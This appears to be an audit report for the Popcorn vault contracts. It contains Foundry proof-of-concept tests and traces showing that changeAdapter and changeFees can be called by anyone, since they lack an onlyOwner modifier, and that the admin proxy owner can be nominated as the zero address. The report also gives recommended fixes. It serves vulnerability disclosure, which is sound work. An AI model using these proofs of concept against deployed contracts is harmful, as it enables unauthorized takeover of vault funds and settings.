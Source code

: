 Finding #1
Should not nominate new admin proxy to address zero, add this test to `test.vault.VaultController.t.sol`:
```
   function test__nominateZeroAddressNewAdminProxyOwner() public {
        controller.nominateNewAdminProxyOwner(address(0));
        assertEq(adminProxy.nominatedOwner(), address(0));
    }
```

 Test output:
```
 ~/latest/2023-01-popcorn │ on main !1 ?1  forge test --match-path test/vault/VaultController.t.sol --match-test "test__nominateZeroAddressNewAdminProxyOwner" -vvvv                              ✔ │ took 8s │ at 23:48:33 
[⠒] Compiling...
No files changed, compilation skipped

Running 1 test for test/vault/VaultController.t.sol:VaultControllerTest
[PASS] test__nominateZeroAddressNewAdminProxyOwner() (gas: 21579)
Traces:
  [21579] VaultControllerTest::test__nominateZeroAddressNewAdminProxyOwner() 
    ├─ [13287] VaultController::nominateNewAdminProxyOwner(0x0000000000000000000000000000000000000000) 
    │   ├─ [5766] AdminProxy::nominateNewOwner(0x0000000000000000000000000000000000000000) 
    │   │   ├─ emit OwnerNominated(newOwner: 0x0000000000000000000000000000000000000000)
    │   │   └─ ← ()
    │   └─ ← ()
    ├─ [359] AdminProxy::nominatedOwner() [staticcall]
    │   └─ ← 0x0000000000000000000000000000000000000000
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```





Finding #2
Affected code:
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/Vault.sol#L594
https://github.com/code-423n4/2023-01-popcorn/blob/main/test/vault/Vault.t.sol#L863

Missing `onlyOwner` modifier on `src.vault.Vault.changeAdapter` allows anyone to set a new Adapter for this Vault after the quit period has passed. The existing test in `test.vault.Vault.testFail__changeAdapter_NonOwner` is incorrectly implemented to verify the issue and fails on `NotPassedQuitPeriod` rather than properly catching the error of lack of ownership, e.g.
```
~/se/currents/latest/2023-01-popcorn │ on main !2 ?1  forge test --match-path test/vault/Vault.t.sol --match-test "testFail__changeAdapter_NonOwner" -vvvv

[⠊] Compiling...
No files changed, compilation skipped

Running 1 test for test/vault/Vault.t.sol:VaultTest
[PASS] testFail__changeAdapter_NonOwner() (gas: 32770)
Traces:
  [32770] VaultTest::testFail__changeAdapter_NonOwner() 
    ├─ [0] VM::prank(alice: [0x000000000000000000000000000000000000ABcD]) 
    │   └─ ← ()
    ├─ [22509] vault::changeAdapter() 
    │   ├─ [2640] MockERC4626::balanceOf(vault: [0xF62849F9A0B5Bf2913b396098F7c7019b51A820a]) [staticcall]
    │   │   └─ ← 0
    │   ├─ [2523] MockERC4626::convertToAssets(0) [staticcall]
    │   │   └─ ← 0
    │   └─ ← "NotPassedQuitPeriod(259200)"
    └─ ← "NotPassedQuitPeriod(259200)"

Test result: ok. 1 passed; 0 failed; finished in 3.50ms
```
PoC:
```  function test__anyoneCanChangeAdapterAfterNewWasProposed() public {
    // Missing onlyOwner modifier allows anyone to Set a new Adapter for this Vault after the quit period has passed.
    MockERC4626 newAdapter = new MockERC4626(IERC20(address(asset)), "Mock Token Vault", "vwTKN");
    uint256 depositAmount = 1 ether;

    // Deposit funds for testing
    asset.mint(alice, depositAmount);
    vm.startPrank(alice);
    asset.approve(address(vault), depositAmount);
    vault.deposit(depositAmount, alice);
    vm.stopPrank();

    // Increase assets in asset Adapter to check hwm and assetCheckpoint later
    asset.mint(address(adapter), depositAmount);
    vault.takeManagementAndPerformanceFees();

    // Preparation to change the adapter
    vault.proposeAdapter(IERC4626(address(newAdapter)));

    vm.warp(block.timestamp + 3 days);

    vm.expectEmit(false, false, false, true, address(vault));
    emit ChangedAdapter(IERC4626(address(adapter)), IERC4626(address(newAdapter)));
    
    vm.startPrank(bob);
    vault.changeAdapter();
    vm.stopPrank();

  }
```

Recommendation: add `onlyOwner` modifier to `changeAdapter` function and refactor `testFail__changeAdapter_NonOwner`




Finding #3 
Affected code:
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/Vault.sol#L540-L546
https://github.com/code-423n4/2023-01-popcorn/blob/main/test/vault/Vault.t.sol#L757-L760

Missing `onlyOwner` modifier on `src.vault.Vault.changeFees` allows anyone change fees to the previously proposed fees after the quit period has passed. The existing test in `test.vault.Vault.testFail__changeFees_NonOwner ` is incorrectly implemented to verify the issue and fails on `NotPassedQuitPeriod` rather than properly catching the error of lack of ownership, e.g.
```
 ~/se/currents/latest/2023-01-popcorn │ on main !2 ?1  forge test --match-path test/vault/Vault.t.sol --match-test "testFail__changeFees_NonOwner" -vvvv
[⠊] Compiling...
No files changed, compilation skipped

Running 1 test for test/vault/Vault.t.sol:VaultTest
[PASS] testFail__changeFees_NonOwner() (gas: 14996)
Traces:
  [14996] VaultTest::testFail__changeFees_NonOwner() 
    ├─ [0] VM::prank(alice: [0x000000000000000000000000000000000000ABcD]) 
    │   └─ ← ()
    ├─ [4757] vault::changeFees() 
    │   └─ ← "NotPassedQuitPeriod(259200)"
    └─ ← "NotPassedQuitPeriod(259200)"

Test result: ok. 1 passed; 0 failed; finished in 5.01ms
```
PoC:
```
    function test__anyoneCanChangeFees() public {
    VaultFees memory newVaultFees = VaultFees({ deposit: 1, withdrawal: 1, management: 1, performance: 1 });
    vault.proposeFees(newVaultFees);

    vm.warp(block.timestamp + 3 days);

    vm.expectEmit(false, false, false, true, address(vault));
    emit ChangedFees(VaultFees({ deposit: 0, withdrawal: 0, management: 0, performance: 0 }), newVaultFees);
    
    vm.prank(alice);
    vault.changeFees();
    vm.stopPrank();
  }
```

Recommendation: add `onlyOwner` modifier to `changeFees` function and refactor `testFail__changeFees_NonOwner`

